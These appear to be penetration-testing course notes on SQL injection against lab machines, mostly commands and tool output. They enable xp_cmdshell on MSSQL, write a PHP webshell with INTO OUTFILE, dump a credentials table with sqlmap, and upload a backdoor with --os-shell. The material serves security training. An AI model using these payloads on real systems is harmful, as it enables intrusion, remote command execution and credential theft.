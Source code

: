 
### Manual Code Execution

In Microsoft SQL Server (MSSQL):
_xp_cmdshell_ function takes strings and gives them to command shell for execution 

Enabling xp_cmdshell feature

```MSSQL
kali@kali:~$ impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation
...
SQL> EXECUTE sp_configure 'show advanced options', 1;
[*] INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE;
SQL> EXECUTE sp_configure 'xp_cmdshell', 1;
[*] INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE;
```

Executing Commands via xp_cmdshell

```MSSQL
SQL> EXECUTE xp_cmdshell 'whoami';
output

---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

nt service\mssql$sqlexpress

NULL
```

For RCE, we _can_ abuse the [_SELECT INTO_OUTFILE_](https://dev.mysql.com/doc/refman/8.0/en/select-into.html) statement to write files on the web server. (if we have write permissions)

Write a WebShell To Disk via INTO OUTFILE directive

```
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```
Resulting PHP reverse shell

```
<? system($_REQUEST['cmd']); ?>
```
Writing the WebShell to Disk

![Figure 16: Writing the WebShell to Disk](https://offsec-platform-prod.s3.amazonaws.com/offsec-courses/PEN-200/imgs/sqli/5d3b9c0695e7d107101f14348f18ef00-into_outfile.png)

Received error, but shouldn't impact file write. 

Accessing the Webshell

![Figure 17: Accessing the Webshell](https://offsec-platform-prod.s3.amazonaws.com/offsec-courses/PEN-200/imgs/sqli/a2509f6cff30ec7c5ff91c98492bab3e-into_outfile2.png)

### Automating the Attack

#sqlmap can identify and exploit SQL vulnerabilities

Running sqlmap to quickly find SQL injection points

```hlt:1,19
kali@kali:~$ sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.6.4#stable}
|_ -| . [)]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

...
[*] starting @ 02:14:54 PM /2022-05-16/

[14:14:54] [INFO] resuming back-end DBMS 'mysql'
[14:14:54] [INFO] testing connection to the target URL
got a 302 redirect to 'http://192.168.50.16:80/login1.php?msg=2'. Do you want to follow? [Y/n]
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=fbf1f5fa5fc...a7266cba36'). Do you want to use those [Y/n]
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: user (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: user=1' AND (SELECT 1582 FROM (SELECT(SLEEP(5)))dTzB) AND 'hiPB'='hiPB
---
[14:14:57] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: PHP, PHP 7.3.33, Apache 2.4.52
back-end DBMS: MySQL >= 5.0.12
[14:14:57] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/192.168.50.16'

[*] ending @ 02:14:57 PM /2022-05-16/
```

Running sqlmap to Dump Users Credentials Table

```hlt:1
kali@kali:~$ sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user --dump
...

[*] starting @ 02:23:49 PM /2022-05-16/

[14:23:49] [INFO] resuming back-end DBMS 'mysql'
[14:23:49] [INFO] testing connection to the target URL
got a 302 redirect to 'http://192.168.50.16:80/login1.php?msg=2'. Do you want to follow? [Y/n]
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=b7c9c962b85...c6c7205dd1'). Do you want to use those [Y/n]
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: user (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: user=1' AND (SELECT 1582 FROM (SELECT(SLEEP(5)))dTzB) AND 'hiPB'='hiPB
---
[14:23:52] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: PHP, Apache 2.4.52, PHP 7.3.33
back-end DBMS: MySQL >= 5.0.12
[14:23:52] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[14:23:52] [INFO] fetching current database
[02:23:52 PM] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n]
[14:25:26] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions
[14:25:26] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)

[14:25:47] [INFO] adjusting time delay to 2 seconds due to good response times
offsec
[14:27:01] [INFO] fetching tables for database: 'offsec'
[14:27:01] [INFO] fetching number of tables for database 'offsec'

[02:27:01 PM] [INFO] retrieved: 2
[02:27:11 PM] [INFO] retrieved: customers
[02:29:25 PM] [INFO] retrieved: users
[14:30:38] [INFO] fetching columns for table 'users' in database 'offsec'
[02:30:38 PM] [INFO] retrieved: 4
[02:30:44 PM] [INFO] retrieved: id
[02:31:14 PM] [INFO] retrieved: username
[02:33:02 PM] [INFO] retrieved: password
[02:35:09 PM] [INFO] retrieved: description
[14:37:56] [INFO] fetching entries for table 'users' in database 'offsec'
[14:37:56] [INFO] fetching number of entries for table 'users' in database 'offsec'
[02:37:56 PM] [INFO] retrieved: 4
[02:38:02 PM] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)
[14:38:24] [INFO] adjusting time delay to 1 second due to good response times
this is the admin
[02:40:54 PM] [INFO] retrieved: 1
[02:41:02 PM] [INFO] retrieved: 21232f297a57a5a743894a0e4a801fc3
[02:46:34 PM] [INFO] retrieved: admin
[02:47:15 PM] [INFO] retrieved: try harder
[02:48:44 PM] [INFO] retrieved: 2
[02:48:54 PM] [INFO] retrieved: f9664ea1803311b35f

...
```

Gain an interactive shell with the `--os-shell` parameter in sqlmap.

Start by Intercepting the POST request with Burp

```
POST /search.php HTTP/1.1
Host: 192.168.50.19
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 9
Origin: http://192.168.50.19
Connection: close
Referer: http://192.168.50.19/search.php
Cookie: PHPSESSID=vchu1sfs34oosl52l7pb1kag7d
Upgrade-Insecure-Requests: 1

item=test
```

Next, invoke sqlmap with the following parameters

`-r`- file containing POST request
`-p`- vulnerable parameter (in this ex: item)
`--os-shell`
`--web-root`- writable folder 

Running sqlmap with os-shell

```
kali@kali:~$ sqlmap -r post.txt -p item  --os-shell  --web-root "/var/www/html/tmp"
...
[*] starting @ 02:20:47 PM /2022-05-19/

[14:20:47] [INFO] parsing HTTP request from 'post'
[14:20:47] [INFO] resuming back-end DBMS 'mysql'
[14:20:47] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: item (POST)
...
---
[14:20:48] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.52
back-end DBMS: MySQL >= 5.6
[14:20:48] [INFO] going to use a web backdoor for command prompt
[14:20:48] [INFO] fingerprinting the back-end DBMS operating system
[14:20:48] [INFO] the back-end DBMS operating system is Linux
which web application language does the web server support?
[1] ASP
[2] ASPX
[3] JSP
[4] PHP (default)
> 4
[14:20:49] [INFO] using '/var/www/html/tmp' as web server document root
[14:20:49] [INFO] retrieved web server absolute paths: '/var/www/html/search.php'
[14:20:49] [INFO] trying to upload the file stager on '/var/www/html/tmp/' via LIMIT 'LINES TERMINATED BY' method
[14:20:50] [WARNING] unable to upload the file stager on '/var/www/html/tmp/'
[14:20:50] [INFO] trying to upload the file stager on '/var/www/html/tmp/' via UNION method
[14:20:50] [WARNING] expect junk characters inside the file as a leftover from UNION query
[14:20:50] [INFO] the remote file '/var/www/html/tmp/tmpuqgek.php' is larger (713 B) than the local file '/tmp/sqlmapxkydllxb82218/tmp3d64iosz' (709B)
[14:20:51] [INFO] the file stager has been successfully uploaded on '/var/www/html/tmp/' - http://192.168.50.19:80/tmp/tmpuqgek.php
[14:20:51] [INFO] the backdoor has been successfully uploaded on '/var/www/html/tmp/' - http://192.168.50.19:80/tmp/tmpbetmz.php
[14:20:51] [INFO] calling OS shell. To quit type 'x' or 'q' and press ENTER

os-shell> id
do you want to retrieve the command standard output? [Y/n/a] y
command standard output: 'uid=33(www-data) gid=33(www-data) groups=33(www-data)'

os-shell> pwd
do you want to retrieve the command standard output? [Y/n/a] y
command standard output: '/var/www/html/tmp'
```
